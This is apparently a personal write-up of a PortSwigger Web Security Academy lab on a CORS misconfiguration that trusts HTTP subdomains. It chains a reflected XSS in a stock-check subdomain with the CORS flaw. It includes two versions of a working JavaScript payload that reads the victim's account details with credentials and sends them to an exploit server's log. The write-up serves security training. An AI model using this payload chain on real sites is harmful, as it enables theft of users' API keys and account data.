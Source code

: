 # CORS vulnerability with trusted insecure protocols

## Description

The website of [this lab](https://portswigger.net/web-security/cors/lab-breaking-https-attack) has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

## Reproduction and proof of concept

1. Start Burp, foxyproxy, and with intercept off, log in with `wiener:peter` to the target site and access the account page.
2. In Burp, review the history. The API key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with:
* The origin header set to an arbitrary value
* The origin header set to `null`
* The origin header set to begin with the origin of the site
* The origin header set to end with the origin of the site

The CORS configuration allows the latter two, hence access from arbitrary subdomains, both HTTPS and HTTP, possibly because some subdomain is involved somewhere on the site, one that could be vulnerable.

4. Use HTTP history to find it. 

![CORS](../../_static/images/cors7.png)

5. Open a product page, click **Check stock**. It is loaded using a HTTP URL on a subdomain, and the `productID` parameter is vulnerable to [XSS](../xss/README.md). 

![CORS](../../_static/images/cors8.png)

6. Create exploit (replacing `lab-id` and `exploit-server-id`):

```text
<html>
    <body>
        <script>
            document.location="http://stock.lab-id.web-security-academy.net/?productId=<script>
            var req = new XMLHttpRequest();
            var url = 'https://lab-id.web-security-academy.net/';
            
            req.onreadystatechange = function () {
                if (req.readyState == XMLHttpRequest.DONE) {
                    fetch('https://exploit-server-id/log/key=' + req.responseText)
                };
            };
            
            req.open('get', url + 'accountDetails',true);
            req.withCredentials = true;
            req.send(null);</script>&storeId=1"
        </script>
    </body>
</html>
```

As one-liner with `+` and `<` in the closing tag of the inner script url-encoded:

```text
<html>
    <body>
        <script>
            document.location="http://stock.lab-id.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = 'https://lab-id.web-security-academy.net/';req.onreadystatechange = function () {if (req.readyState == XMLHttpRequest.DONE) {fetch('https://exploit-server-id/log/key=' %2b req.responseText)};};req.open('get', url %2b 'accountDetails',true);req.withCredentials = true;req.send(null);%3c/script>&storeId=1"
        </script>
    </body>
</html>
```

7. Go to the exploit server and enter the exploit in the body field of the form.

![CORS](../../_static/images/cors9.png)

8. Click **View exploit** and check you land on the log page and your API key is in the URL.
9. **Deliver exploit to victim**.
10. Go to **Access log**

![CORS](../../_static/images/cors10.png)

11. Copy the administrator's API key, and enter it as solution to the lab.

## Exploitability

_If an on-path attack (MitM) between server and victim was possible, a connection to an insecure subdomain could be hijacked, and malicious JavaScript injected to exploit the CORS configuration. Unfortunately, in this lab environment on-path is not possible, so we used an alternative way of injecting JavaScript into the subdomain._
